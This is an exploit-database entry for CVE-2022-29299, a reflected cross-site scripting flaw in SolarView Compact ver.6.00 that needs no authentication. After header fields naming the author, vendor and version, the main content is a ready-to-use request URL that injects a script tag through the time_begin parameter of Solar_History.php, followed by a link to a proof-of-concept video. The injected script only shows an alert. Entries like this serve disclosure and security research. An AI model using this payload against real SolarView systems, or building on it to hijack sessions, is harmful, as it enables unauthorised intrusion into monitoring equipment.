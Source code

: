 # Exploit Title: SolarView Compact ver.6.00 - Reflected XSS via the time_begin parameter
# Date: 2022-05-15
# Exploit Author: Ahmed Alroky
# Author Company : AIactive
# Version: ver.6.00
# Vendor home page : https://www.contec.com/
# Authentication Required: No
# CVE : CVE-2022-29299

# Tested on: Windows


# Exploit

http://IP_ADDRESS/Solar_History.php?time_begin=xx%22%3E%3Cscript%3Ealert(9)%3C/script%3E%3C%22&time_end=&event_level=0&event_pcs=1&search_on=on&search_off=on&word=hj%27&sort_type=0&record=10&command=%95%5C%8E%A6

# Poc
https://drive.google.com/file/d/1ad79tIh2Ldjvvs1WM9cYZrvYOusPrC6K/view